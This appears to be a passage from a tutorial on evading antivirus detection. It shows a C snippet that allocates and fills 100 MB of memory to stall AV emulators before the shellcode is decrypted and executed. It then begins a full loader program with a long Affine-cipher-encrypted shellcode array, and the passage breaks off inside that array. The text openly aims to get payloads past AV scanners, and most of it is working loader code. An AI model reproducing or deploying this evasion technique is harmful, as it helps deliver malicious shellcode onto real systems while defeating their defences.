 
As we see at the following code snippet, we just allocate and fill 100 Mega Bytes of memory. This is enough to discourage most of the AV emulators.
</p>

```c
int main()
{
char* memdmp = NULL;
memdmp = (char*)malloc(100000000);
if (memdmp != NULL)
{
    memset(memdmp, 00, 100000000);
    free(memdmp);
    // Perform the decryption here
    // Then execute shellcode here 
}
return 0; 
}
```

<p align="justify">
At the above code, most AV scanners will just stop during the malloc, while the condition verification on allocated pointer is not even needed
</p>

<p align="justify">
Using the code snippet above into the full program below, as well as the encrypted shellcode with Affine cipher, our chances to evade AV will be more than enough.
</p>


```c
#include <windows.h>
#include <iostream>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <malloc.h>

char code[] = "\x72\x6d\x20\x06\x6d\x02\x25\x20\x07\x0c\x7c\x25\x77\x6d"
"\x7c\x25\x1b\x0c\x02\x0c\x06\x0c\x11\x20\x02\x25\x77\x25\x72\x7d\x11\x07"
"\x07\x7d\x11\x78\x7d\x02\x20\x07\x01\x20\x06\x77\x78\x07\x7c\x06\x6d\x77"
"\x1b\x6d\x77\x7d\x02\x07\x11\x20\x06\x20\x02\x6d\x7c\x72\x25\x25\x25\x7c"
"\x6d\x07\x07\x01\x6d\x20\x25\x7c\x7c\x78\x0c\x72\x25\x72\x02\x7c\x25\x02"
"\x7d\x25\x7d\x78\x77\x11\x06\x16\x20\x25\x6d\x07\x6d\x72\x7c\x01\x72\x01"
"\x78\x0c\x78\x7d\x07\x25\x06\x7d\x25\x11\x07\x6d\x1b\x25\x25\x78\x7d\x11"
"\x0c\x7d\x6d\x01\x1b\x02\x02\x1b\x20\x6d\x6d\x07\x1b\x07\x16\x78\x06\x1b"
"\x0c\x01\x02\x7d\x07\x25\x1b\x07\x06\x77\x7c\x11\x0c\x01\x77\x25\x07\x7c"
"\x11\x01\x7d\x77\x7c\x06\x0c\x11\x20\x07\x7c\x11\x7c\x01\x16\x0c\x7d\x02"
"\x16\x7c\x72\x25\x6d\x16\x25\x11\x6d\x02\x72\x7d\x01\x01\x20\x7c\x6d\x1b"
"\x06\x77\x72\x25\x02\x16\x7d\x07\x20\x6d\x07\x72\x01\x01\x16\x7c\x1b\x07"
"\x25\x1b\x77\x06\x0c\x7d\x20\x16\x01\x25\x78\x20\x16\x11\x1b\x25\x25\x77"
"\x16\x78\x25\x11\x78\x0c\x6d\x1b\x72\x1b\x01\x1b\x7c\x02\x02\x02\x02\x07"
"\x0c\x06\x25\x78\x25\x11\x20\x06\x1b\x7d\x1b\x11\x0c\x07\x0c\x0c\x1b\x7c"
"\x07\x02\x78\x1b\x78\x02\x16\x02\x77\x11\x77\x0c\x07\x25\x25\x01\x0c\x01"
"\x01\x72\x01\x7c\x7d\x16\x7d\x0c\x77\x20\x02\x25\x1b\x02\x77\x01\x1b\x7d"
"\x16\x20\x7c\x01\x6d\x7d\x20\x01\x16\x6d\x20\x7d\x7d\x01\x02\x72\x01\x7d"
"\x02\x77\x0c\x6d\x0c\x16\x6d\x20\x07\x20\x72\x06\x16\x72\x11\x02\x72\x25"
"\x7c\x1b\x06\x77\x02\x7d\x20\x72\x1b\x20\x11\x1b\x6d\x7c\x6d\x1b\x06\x7d"
"\x1b\x7d\x02\x6d\x77\x1b\x02\x72\x77\x11\x6d\x0c\x07\x16\x7c\x0c\x07\x16"
"\x01\x7c\x06\x77\x20\x78\x16\x16\x20\x11\x7c\x11\x6d\x20\x01\x77\x11\x11"
"\x7c\x25\x1b\x77\x25\x20\x11\x7c\x1b\x77\x02\x06\x72\x06\x6d\x78\x07\x01"
"\x25\x06\x1b\x06\x78\x6d\x7c\x1b\x06\x11\x20\x06\x1b\x11\x77\x1b\x06\x11"
"\x0c\x11\x7d\x01\x16\x78\x78\x20\x16\x16\x02\x78\x7d\x02\x20\x11\x20\x78"
"\x0c\x6d\x77\x0c\x77\x07\x7d\x72\x01\x02\x02\x16\x07\x78\x25\x0c\x25\x11"
```